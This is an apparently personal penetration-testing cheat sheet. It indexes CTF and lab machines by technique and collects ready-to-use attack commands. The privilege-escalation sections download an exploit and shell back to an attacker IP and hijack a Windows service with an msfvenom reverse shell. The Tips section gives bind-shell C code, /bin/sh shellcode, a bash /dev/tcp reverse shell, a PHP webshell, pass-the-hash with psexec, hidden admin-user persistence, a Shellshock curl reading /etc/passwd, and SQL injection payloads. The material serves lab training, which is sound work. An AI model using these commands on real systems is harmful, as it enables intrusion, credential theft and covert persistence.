| 3. | [hackme: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.hackme/writeup.pdf) | [vh#330](https://www.vulnhub.com/entry/hackme-1,330/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 4. | [Escalate_Linux: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.escalatelinux/writeup.pdf) | [vh#323](https://www.vulnhub.com/entry/escalate_linux-1,323/) |  | [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 5. | [FristiLeaks: 1.3](https://github.com/7h3rAm/writeups/blob/master/vulnhub.fristileaks1dot3/writeup.pdf) | [vh#133](https://www.vulnhub.com/entry/fristileaks-13,133/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 6. | [Billy Madison: 1.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.billymadison1dot1/writeup.pdf) | [vh#161](https://www.vulnhub.com/entry/billy-madison-11,161/) |  | [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="privesc_shell_escape"></a>
#### privesc_shell_escape [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: Level 1.3 (#4)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix4/writeup.pdf) | [vh#25](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
  
  
---
<a name="privesc_ssh_authorizedkeys"></a>
#### privesc_ssh_authorizedkeys [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [HackLAB: Vulnix](https://github.com/7h3rAm/writeups/blob/master/vulnhub.vulnix/writeup.pdf) | [vh#48](https://www.vulnhub.com/entry/hacklab-vulnix,48/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys) |
  
  
---
<a name="privesc_ssh_knownhosts"></a>
#### privesc_ssh_knownhosts [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Moria: 1.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.moria11/writeup.pdf) | [vh#187](https://www.vulnhub.com/entry/moria-11,187/) |  | [`privesc_ssh_knownhosts`](https://github.com/7h3rAm/writeups#privesc_ssh_knownhosts) |
  
  
---
<a name="privesc_strace_setuid"></a>
#### privesc_strace_setuid [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lin.Security: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.linsecurity1/writeup.pdf) | [vh#244](https://www.vulnhub.com/entry/linsecurity-1,244/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group) |
  
  
---
<a name="privesc_sudo"></a>
#### privesc_sudo [⇡](#privesc)  
using `sudo` to execute programs that run with elevated privileges  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Bashed](https://github.com/7h3rAm/writeups/blob/master/htb.bashed/writeup.pdf) | [htb#118](https://app.hackthebox.eu/machines/118) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_cron_rootjobs`](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs) |
| 2. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 3. | [Kioptrix: Level 1.2 (#3)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix3/writeup.pdf) | [vh#24](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) |  | [`exploit_lotuscms`](https://github.com/7h3rAm/writeups#exploit_lotuscms), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 4. | [FristiLeaks: 1.3](https://github.com/7h3rAm/writeups/blob/master/vulnhub.fristileaks1dot3/writeup.pdf) | [vh#133](https://www.vulnhub.com/entry/fristileaks-13,133/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 5. | [DC: 6](https://github.com/7h3rAm/writeups/blob/master/vulnhub.dc6/writeup.pdf) | [vh#315](https://www.vulnhub.com/entry/dc-6,315/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
| 6. | [Brainpan: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.brainpan/writeup.pdf) | [vh#51](https://www.vulnhub.com/entry/brainpan-1,51/) |  | [`exploit_bof`](https://github.com/7h3rAm/writeups#exploit_bof), [`privesc_anansi`](https://github.com/7h3rAm/writeups#privesc_anansi), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
  
---
<a name="privesc_sudoers"></a>
#### privesc_sudoers [⇡](#privesc)  
being able to edit the `/etc/sudoers` file to give a user elevated privileges  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Blocky](https://github.com/7h3rAm/writeups/blob/master/htb.blocky/writeup.pdf) | [htb#48](https://app.hackthebox.eu/machines/48) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 2. | [Shocker](https://github.com/7h3rAm/writeups/blob/master/htb.shocker/writeup.pdf) | [htb#108](https://app.hackthebox.eu/machines/108) |  | [`exploit_shellshock`](https://github.com/7h3rAm/writeups#exploit_shellshock), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 3. | [Mirai](https://github.com/7h3rAm/writeups/blob/master/htb.mirai/writeup.pdf) | [htb#64](https://app.hackthebox.eu/machines/64) |  | [`exploit_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_defaultcreds), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 4. | [Misdirection: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.misdirection1/writeup.pdf) | [vh#371](https://www.vulnhub.com/entry/misdirection-1,371/) |  | [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable) |
| 5. | [Kioptrix: Level 1.2 (#3)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix3/writeup.pdf) | [vh#24](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) |  | [`exploit_lotuscms`](https://github.com/7h3rAm/writeups#exploit_lotuscms), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 6. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 7. | [Billy Madison: 1.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.billymadison1dot1/writeup.pdf) | [vh#161](https://www.vulnhub.com/entry/billy-madison-11,161/) |  | [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="privesc_tmux_rootsession"></a>
#### privesc_tmux_rootsession [⇡](#privesc)  
  
  
---
<a name="privesc_windows_ms10_059"></a>
#### privesc_windows_ms10_059 [⇡](#privesc)  
```shell
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS10-059%20-%20Chimichurri/MS10-059.exe
sharehttp <targetport>
certutil.exe -urlcache -split -f "http://<attackerip>:<targetport>/MS10-059.exe" pe.exe
nc -nlvp 444
pe.exe <attackerip> 444

```
  
[+] https://medium.com/@_C_3PJoe/htb-retired-box-write-up-arctic-50eccccc560  
[+] https://github.com/abatchy17/WindowsExploits/tree/master/MS10-059%20-%20Chimichurri  
  
---
<a name="privesc_windows_ms11_046"></a>
#### privesc_windows_ms11_046 [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Devel](https://github.com/7h3rAm/writeups/blob/master/htb.devel/writeup.pdf) | [htb#3](https://app.hackthebox.eu/machines/3) |  | [`exploit_ftp_anonymous`](https://github.com/7h3rAm/writeups#exploit_ftp_anonymous), [`exploit_ftp_web_root`](https://github.com/7h3rAm/writeups#exploit_ftp_web_root), [`exploit_iis_asp_reverseshell`](https://github.com/7h3rAm/writeups#exploit_iis_asp_reverseshell), [`privesc_windows_ms11_046`](https://github.com/7h3rAm/writeups#privesc_windows_ms11_046) |
  
  
---
<a name="privesc_windows_ms14_070"></a>
#### privesc_windows_ms14_070 [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Grandpa](https://github.com/7h3rAm/writeups/blob/master/htb.grandpa/writeup.pdf) | [htb#13](https://app.hackthebox.eu/machines/13) |  | [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms14_070`](https://github.com/7h3rAm/writeups#privesc_windows_ms14_070) |
  
  
---
<a name="privesc_windows_ms15_051"></a>
#### privesc_windows_ms15_051 [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Granny](https://github.com/7h3rAm/writeups/blob/master/htb.granny/writeup.pdf) | [htb#14](https://app.hackthebox.eu/machines/14) |  | [`exploit_iis_webdav`](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [`privesc_windows_ms15_051`](https://github.com/7h3rAm/writeups#privesc_windows_ms15_051) |
  
  
---
<a name="privesc_windows_ms16_032"></a>
#### privesc_windows_ms16_032 [⇡](#privesc)  
  
  
---
<a name="privesc_windows_ms16_098"></a>
#### privesc_windows_ms16_098 [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Optimum](https://github.com/7h3rAm/writeups/blob/master/htb.optimum/writeup.pdf) | [htb#6](https://app.hackthebox.eu/machines/6) |  | [`exploit_hfs_cmd_exec`](https://github.com/7h3rAm/writeups#exploit_hfs_cmd_exec), [`privesc_windows_ms16_098`](https://github.com/7h3rAm/writeups#privesc_windows_ms16_098) |
  
  
---
<a name="privesc_windows_upnphost"></a>
#### privesc_windows_upnphost [⇡](#privesc)  
On a Windows XP system, we can modify the insecurely configured `upnphost` service to gain elevated privileges. This can be done by creating a reverse shell binary and getting it executed by restarting the vulnerable service.  
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -a x86 --platform windows -f exe -o pe.exe
# upload pe.exe file to the target system
sudo nc -nlvp <attackerport>

sc config upnphost binpath= "C:\Inetpub\wwwroot\pe.exe"
sc qc upnphost
sc config upnphost obj= ".\LocalSystem" password= ""
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

```
  
[+] https://www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html  
  
---


<a name="tips"></a>
## ⚡ Tips [↟](#contents)
### bind shell [🡑](#tips)  
```
bs.c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char* argv[]) {
  int host_sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in host_addr;
  host_addr.sin_family = AF_INET;
  host_addr.sin_port = htons(atoi(argv[1]));
  host_addr.sin_addr.s_addr = INADDR_ANY;
  bind(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
  listen(host_sock, 0);
  int client_sock = accept(host_sock, NULL, NULL);
  dup2(client_sock, 0);
  dup2(client_sock, 1);
  dup2(client_sock, 2);
  execve("/bin/bash", NULL, NULL);
}
gcc -m32 -o bs bs.c
./bs 4444
```  
### buffer overflow [🡑](#tips)  
```
payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>
pattern create: /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <attackerport>
pattern offset: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <attackerport> -q <address>
nasm: /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp eax
bad characters:
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
find address for "jmp esp" using mona.py:
!mona jmp -r esp -b <list of bad chars>
gcc compilation options:
linux: gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
  -wl,--hash-style=both: linker option to enable both gnu and sysv style hashtable support
references:
https://github.com/s0wr0b1ndef/OSCP-note/blob/master/Buffer_overflow/info.txt
https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood_tutorial.md
```  
### file transfers [🡑](#tips)  
```
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<targetip>/file.exe','C:\Users\user\Desktop\file.exe')"
python3 -m pyftpdlib -p 21
rdesktop <targetip> -r disk:remotedisk=/usr/share/windows-binaries

gzip+xxd:
  sender:
    gzip -c < file > file.gz
    xxd -p file.gz | tr -d '\n' && echo
  receiver:
    echo 1f8b...0000 > /tmp/file.gz.hex
    xxd -p -r < /tmp/file.gz.hex > /tmp/file.gz
    gunzip -c < /tmp/file.gz > /tmp/file

automate file download via windows ftp client:
  echo open <targetip> >ftp_commands.txt
  echo anonymous >>ftp_commands.txt
  echo whatever >>ftp_commands.txt
  echo binary >>ftp_commands.txt
  echo get met8888.exe >>ftp_commands.txt
  echo bye >>ftp_commands.txt
  ftp -s:ftp_commands.txt

create wget.vbs and download netcat:
  >C:\Windows\d.vbs
  echo strUrl = WScript.Arguments.Item(0)  >>C:\Windows\d.vbs
  echo StrFile = WScript.Arguments.Item(1)  >>C:\Windows\d.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0  >>C:\Windows\d.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0  >>C:\Windows\d.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1  >>C:\Windows\d.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2  >>C:\Windows\d.vbs
  echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts  >>C:\Windows\d.vbs
  echo Err.Clear  >>C:\Windows\d.vbs
  echo Set http = Nothing  >>C:\Windows\d.vbs
  echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1")  >>C:\Windows\d.vbs
  echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")   >>C:\Windows\d.vbs
  echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")   >>C:\Windows\d.vbs
  echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")  >>C:\Windows\d.vbs
  echo http.Open "GET", strURL, False  >>C:\Windows\d.vbs
  echo http.Send  >>C:\Windows\d.vbs
  echo varByteArray = http.ResponseBody  >>C:\Windows\d.vbs
  echo Set http = Nothing  >>C:\Windows\d.vbs
  echo Set fs = CreateObject("Scripting.FileSystemObject")  >>C:\Windows\d.vbs
  echo Set ts = fs.CreateTextFile(StrFile, True)  >>C:\Windows\d.vbs
  echo strData = ""  >>C:\Windows\d.vbs
  echo strBuffer = ""  >>C:\Windows\d.vbs
  echo For lngCounter = 0 to UBound(varByteArray)  >>C:\Windows\d.vbs
  echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))  >>C:\Windows\d.vbs
  echo Next  >>C:\Windows\d.vbs
  echo ts.Close >>C:\Windows\d.vbs
  dir C:\Windows\d.vbs
  C:\Windows\d.vbs "http://<targetip>/nc.exe" C:\Windows\nc.exe

netcat:
  nc -w3 <targetip> 1234 <file.sent
  cmd /c nc.exe -l -v -p 1234 >file.rcvd

smb (139/tcp, 445/tcp):
  server: python smbserver.py -smb2support shared $HOME/toolbox/scripts/shared
    copy ntlm/lm hashes submitted by windows clients during transfers and crack via jtr/hashcat
  client:
    list files: smbclient -L <targetip> --no-pass
    list files: net view \\<targetip>
    list files: dir \\<targetip>\shared
    copy files: copy \\<targetip>\shared\met8888.exe
    execute files: \\<targetip>\shared\met8888.exe

tftp (69/udp):
  server:
    atftpd --daemon --port 69 $HOME/toolbox/scripts/shared
    metasploit:
      use auxiliary/server/tftp
      set TFTPROOT $HOME/toolbox/scripts/shared
      exploit
  client:
    download: tftp -i <targetip> GET met8888.exe
    upload: tftp -i <targetip> PUT hashes.txt
    install: pkgmgr /iu:"TFTP"
```  
### heartbleed [🡑](#tips)  
```
nmap --script=ssl-heartbleed -p <targetport> <targetip>
https://github.com/sensepost/heartbleed-poc
python $HOME/toolbox/scripts/heartbleed-poc/heartbleed-poc.py -n10 -f dump.bin <targetip> -p <targetport>
strings dump.bin
```  
### iptables [🡑](#tips)  
```
config file: /etc/iptables/rules.v4
```  
### lfi/rfi/image upload [🡑](#tips)  
```
scan:
  uniscan -u http://<targetip>/ -qweds
  wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://<targetip>/FUZZ
php b64 leak and command execution:
  php://filter/convert.base64-encode/resource=<pagename>
  <?php echo passthru($_GET[cmd]) ?>
bypass upload filter:
  change extension to PHP, PHP3, PHP4, PHP5
  add magic bytes to start of file (eg: GIF87 to a php shell) to evade upload filters
local file access: http://<targetip>/?page=php://filter/convert.base64-encode/resource=index
notice urls that accept a generic filename as parameter:
  ?page=file1.php
  ?page=../../../../../../etc/passwd
  ?page=../../../../../../windows/system32/drivers/etc/hosts
ippsec steps (htb.beep: https://youtu.be/XJmBpOd__N8):
  /etc/passwd
  /proc/self/status
find home username in passwd, locate home directory for user:
  /var/lib/asterisk/.ssh/id_rsa
```  
### passthehash [🡑](#tips)  
```
pth-toolkit:
  git clone https://github.com/byt3bl33d3r/pth-toolkit
  pth-winexe -U hash //IP cmd
xfreerdp:
  apt-get install freerdp-x11
  xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP
meterpreter:
  meterpreter > run post/windows/gather/hashdump
  Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
  msf > use exploit/windows/smb/psexec
  msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
  msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
  msf exploit(psexec) > exploit
  meterpreter > shell
misc:
  fgdump.exe
  /usr/bin/pth-winexe -U administrator%0182BD0BD4444BF836077A718CCDF409:259745CB123A52AA2E693AAACCA2DB52 //<targetip> cmd.exe
  wmiexec.exe -hashes 0182BD0BD4444BF836077A718CCDF409:259745CB123A52AA2E693AAACCA2DB52 administrator@localhost
```  
### passwords [🡑](#tips)  
```
shadow file structure: $id$salt$password
generate shadow file hash:
mkpasswd -m md5 password salt
mkpasswd -m sha-256 password salt
mkpasswd -m sha-512 password salt
```  
### persistence [🡑](#tips)  
```
add a new administrator user:
  net user anderson cooper /add && net localgroup administrators anderson /add
add user to rdp group:
  net localgroup "Remote Desktop Users" anderson /add
enable rdp in firewall:
  reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
  netsh firewall set service remoteadmin enable
  netsh firewall set service remotedesktop enable
  netsh firewall add portopening TCP <targetport> "RDP"
enable rdp via registry (requries reboot):
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
is rdp service running:
  tasklist /svc | findstr /c:TermService
start rdp service:
  net start TermService
permanently enable rdp service:
  sc config TermService start=auto
code:
  useradd.c:
    #include <stdlib.h>
    int main() {
      int i;
      i=system("net user anderson cooper /add && net localgroup administrators anderson /add");
      return 0;
    }
  add user:
    #include <stdlib.h> /* system, NULL, EXIT_FAILURE */
    int main() {
      int i;
      i=system("net user anderson cooper /add && net localgroup administrators anderson /add");
      return 0;
    }
    # compile: i686-w64-mingw32-gcc -o useradd.exe useradd.c
```  
### port forward [🡑](#tips)  
```
socat:
  socat tcp-listen:<targetport>,fork,reuseaddr tcp:127.0.0.1:80 &
  socat tcp-listen:8065,fork,reuseaddr tcp:127.0.0.1:65334 &
plink:
  plink.exe -v -x -a -T -C -noagent -ssh -pw "<localpassword>" -R <targetport>:127.0.0.1:<targetport> <localuser>@<attackerip>
meterpreter:
  # https://www.offensive-security.com/metasploit-unleashed/portfwd/
  # forward remote port to local address
  meterpreter > portfwd add --l <targetport> --p <targetport> --r <targetip>
  kali > rdesktop 127.0.0.1:<targetport>
```  
### portknock [🡑](#tips)  
```
knock once on port <targetport>/tcp:
hping3 <targetip> -S -p <targetport> -c 1
nc -vvvz <targetip> <targetport>
knock on multiple tcp ports in a given sequence:
hping3 <targetip> -S -p 666 -c 1; hping3 <targetip> -S -p 7000 -c 1; hping3 <targetip> -S -p 8890 -c 1
nmap -Pn -sT -r -p666,7000,8890 <targetip>
```  
### restricted shells [🡑](#tips)  
```
rbash:
  bash -i
  BASH_CMDS[foobar]=/bin/bash;foobar
lshell:
  echo os.system("/bin/bash")
```  
### reverse shell [🡑](#tips)  
```
reverse tcp shell from bash:
  /bin/bash -i >& /dev/tcp/<targetip>/<attackerport> 0>&1
make a partially interactive terminal usable:
  target: python -c "import pty; pty.spawn('/bin/bash')"
local:
  stty raw -echo ; fg
target:
  reset ; export SHELL=bash ; export TERM=xterm ; stty size ; stty -rows 45 -columns 90 ; stty size
reverse php shell on windows:
  https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php
```  
### shellcode [🡑](#tips)  
```
/bin/sh: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```  
### shellshock [🡑](#tips)  
```
look for /cgi-bin/ directory (incldue 403 code for gobuster scan)
check for scripts (-x sh,pl) using gobuster
test http header, user-agent probably
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://<targetip>/cgi-bin/user.sh
gobuster -u <targetip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403
gobuster -u <targetip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl,py
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <targetip>
```  
### sql injection [🡑](#tips)  
```
manual verification:
  ' or 1=1 -- -
  ' || 1=1 #
  or 1=1
  or 1=1--
  or 1=1#
  or 1=1/*
  admin' --
  admin' #
  admin'/*
  admin' or '1'='1
  admin' or '1'='1'--
  admin' or '1'='1'#
  admin' or '1'='1'/*
  admin'or 1=1 or ''='
  admin' or 1=1
  admin' or 1=1--
  admin' or 1=1#
  admin' or 1=1/*
  admin') or ('1'='1
  admin') or ('1'='1'--
  admin') or ('1'='1'#
  admin') or ('1'='1'/*
  admin') or '1'='1
  admin') or '1'='1'--
  admin') or '1'='1'#
  admin') or '1'='1'/*
  1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
  admin" --
  admin" #
  admin"/*
  admin" or "1"="1
  admin" or "1"="1"--
  admin" or "1"="1"#
  admin" or "1"="1"/*
